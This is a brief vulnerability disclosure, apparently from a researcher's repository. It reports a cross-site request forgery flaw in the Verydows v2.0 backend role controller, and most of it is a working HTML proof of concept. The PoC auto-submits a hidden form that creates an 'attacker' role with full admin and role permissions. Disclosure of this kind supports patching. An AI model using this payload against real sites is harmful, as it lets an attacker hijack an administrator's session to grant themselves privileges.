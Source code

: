 target:https://gitee.com/cigery/verydows

version:v2.0

Verydows v2.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /protected/controller/backend/role_controller


![](https://github.com/cui2shark/security/blob/main/image/Added CSRF in Role Controller/image-20231220213209690.png)

create poc

![](image/Added CSRF in Role Controller/Snipaste_2023-12-20_21-33-54.png)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/index.php?m=backend&c=role&a=add&step=submit" method="POST">
      <input type="hidden" name="role&#95;name" value="attacker" />
      <input type="hidden" name="role&#95;desc" value="" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;delete" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

successed

![](image/Added CSRF in Role Controller/image-20231220213602214.png)

![](https://github.com/cui2shark/security/blob/main/image/Added CSRF in Role Controller/Snipaste_2023-12-20_21-33-54.png)

